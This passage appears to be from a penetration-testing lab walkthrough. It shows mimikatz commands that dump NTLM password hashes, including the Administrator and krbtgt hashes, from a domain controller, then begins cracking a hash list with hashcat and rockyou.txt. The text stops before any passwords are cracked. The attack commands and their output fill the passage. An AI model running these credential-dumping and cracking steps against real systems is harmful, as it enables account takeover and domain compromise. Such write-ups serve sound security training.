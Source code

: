 First we need to enter debug mode (this only works if you have admin rights):

```text
mimikatz # privilege::debug
Privilege '20' OK
```

Now we dump the hashes:

```text
mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6
RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf
<<SNIP>>
```

Now we have the hashes we can try to crack them. First let's do it using hashcat and rockyou.txt:

```text
root@kali:~# locate rockyou.txt
/usr/share/wordlists/rockyou.txt

root@kali:~# cat hashes.txt
2777b7fec870e04dda00cd7260f7bee6
5508500012cc005cf7082a9a89ebdfdf
64f12cddaa88057e06a81b54e73b949b
2b576acbe6bcfda7294d6bd18041b8fe
c39f2beb3d2ec06a62cb887fb391dee0
f4ab68f27303bcb4024650d8fc5f973a
c4b0e1b10c7ce2c4723b4e2407ef81a2
bb068638512ac1118ce7f78e92f49792
634fc097987e56849234eb459373d1e7
3c2d4759eb9884d7a935fe71a8e0f54c
7d33346eeb11a4f12a6c201faaa0d89a

root@kali:~# hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8850H CPU @ 2.60GHz, 512/1493 MB allocatable, 2MCU
Hashes: 11 digests; 11 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

* Device #1: Kernel m01000_a0-pure.47f99bfe.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
```
